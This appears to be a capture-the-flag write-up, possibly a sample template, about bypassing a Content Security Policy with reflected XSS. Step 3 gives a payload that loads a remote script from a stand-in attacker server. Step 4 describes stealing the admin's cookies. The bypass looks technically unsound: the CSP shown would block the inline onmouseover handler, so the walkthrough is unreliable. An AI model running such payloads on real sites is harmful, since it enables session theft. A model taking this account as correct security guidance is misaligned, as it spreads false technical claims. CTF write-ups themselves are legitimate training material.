 ```yaml
---
title: "XSS Challenge"
date: "2025-06-19"
ctf: "Example CTF 2025"
category: "Web"
difficulty: "Medium"
points: 500
tags: ["xss", "javascript", "csp"]
author: "Tham Le"
solved: true
featured: true
description: "A walkthrough of an interesting XSS challenge that required bypassing a Content Security Policy."
---
```


# XSS Challenge

**Category:** Web  
**Difficulty:** Medium  
**Points:** 500  
**Event:** Example CTF 2025

## Challenge Description

This challenge asked us to bypass a strict Content Security Policy to execute JavaScript on the admin's browser.

## Solution

The website had a search feature that reflected our query in the page without proper sanitization, making it vulnerable to XSS. However, there was a strict CSP in place:

```
Content-Security-Policy: default-src 'self'; script-src 'nonce-random123' 'strict-dynamic'; object-src 'none';
```

### Step 1: Analyzing the CSP

The CSP uses `nonce-random123` which means only scripts with this specific nonce attribute would be allowed to execute. Additionally, `strict-dynamic` means that any script loaded by a trusted script would also be trusted.

### Step 2: Finding the Vulnerability

I found that the site included a script with the correct nonce that loaded jQuery:

```html
<script nonce="random123" src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
```

### Step 3: Exploit

I used jQuery's `$.getScript()` method which would inherit the trust from the initial script due to strict-dynamic:

```javascript
<input value="x" onmouseover="$.getScript('https://my-server.com/evil.js')">
```

### Step 4: Getting the Flag

When the admin viewed the page with my payload, their browser executed my JavaScript which exfiltrated the admin's cookies to my server, containing the flag.

## Flag

`flag{x55_c5p_byp455_m45t3r}`

## Lessons Learned

- CSP can be bypassed if strict-dynamic is used alongside trusted scripts that provide execution methods
- Always validate and sanitize user input, especially when reflecting it in the page
